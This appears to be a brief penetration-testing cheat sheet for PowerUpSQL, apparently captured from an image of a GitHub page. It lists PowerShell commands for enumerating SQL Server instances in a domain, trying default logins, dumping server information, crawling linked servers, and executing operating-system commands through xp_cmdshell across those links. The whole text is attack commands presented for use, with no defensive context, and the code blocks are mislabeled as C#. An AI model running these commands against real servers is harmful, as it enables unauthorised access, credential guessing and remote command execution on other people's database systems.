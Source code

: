 # PowerUpSQL

## Enumeration

```csharp
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
#local
Get-SQLInstanceLocal 

```

```text
Get-SQLInstanceLocal 
```

#### Default login

```csharp
 Get-SQLServerLoginDefaultPw -Verbose -Instance <SERVER>
```

## Dump

```csharp
Invoke-SQLDumpInfo -Verbose -Instance <SERVER>
```

## Database Link

```csharp
Get-SQLServerLink -Instance <SERVER>
Get-SQLServerLinkCrawl -Instance <SERVER> -Verbose | ft
```

## Command execution

```csharp
Get-SQLServerLinkCrawl -Instance <SERVER> -Query "exec master..xp_cmdshell 'ipconfig'"
```



